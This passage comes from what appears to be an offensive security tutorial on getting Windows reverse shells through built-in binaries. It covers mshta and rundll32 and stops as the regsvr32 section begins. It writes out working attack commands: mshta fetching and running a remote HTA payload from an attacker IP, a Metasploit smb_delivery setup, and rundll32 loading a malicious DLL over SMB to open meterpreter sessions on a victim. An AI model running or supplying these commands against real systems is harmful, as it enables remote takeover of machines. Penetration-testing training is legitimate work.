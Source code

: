 ![](images/reverse_shell_windows_1.png)

Once you will execute the malicious hta file on the remote machine with the help of mshta.exe, you get the reverse connection at your local machine (Kali Linux).

```mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta```

![](images/reverse_shell_windows_2.png)

As you can observe, we have the meterpreter session of the victim as shown below:

![](images/reverse_shell_windows_3.png)


## Rundll32.exe

Rundll32.exe is associated with Windows Operating System that allows you to invoke a function exported from a **DLL**, either 16-bit or 32-bit and store it in proper memory libraries.

### Launch Rundll32 Attack via SMB Delivery of Metasploit

Metasploit also contain the “SMB Delivery” module which generates malicious dll file. This module serves payloads via an SMB server and provides commands to retrieve and execute the generated payloads. Currently supports DLLs and Powershell.

```
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
msf exploit(windows/smb/smb_delivery) > exploit
```

Now run the malicious code through rundll32.exe on the victim machine (vulnerable to RCE) to obtain meterpreter sessions.

![](images/reverse_shell_windows_9.png)

Once you will execute the dll file on the remote machine with the help of rundll32.exe, you will get the reverse connection at your local machine (Kali Linux).

```rundll32.exe \\192.168.1.109\vabFG\test.dll,0```

![](images/reverse_shell_windows_10.png)

As you can observe, we have the meterpreter session of the victim as shown below:

![](images/reverse_shell_windows_11.png)


## Regsvr32.exe

Regsvr32 is a command-line utility to register and unregister OLE controls, such as DLLs and ActiveX controls in the Windows Registry. Regsvr32.exe is installed in the %systemroot%\System32 folder in Windows XP and later versions of Windows.
```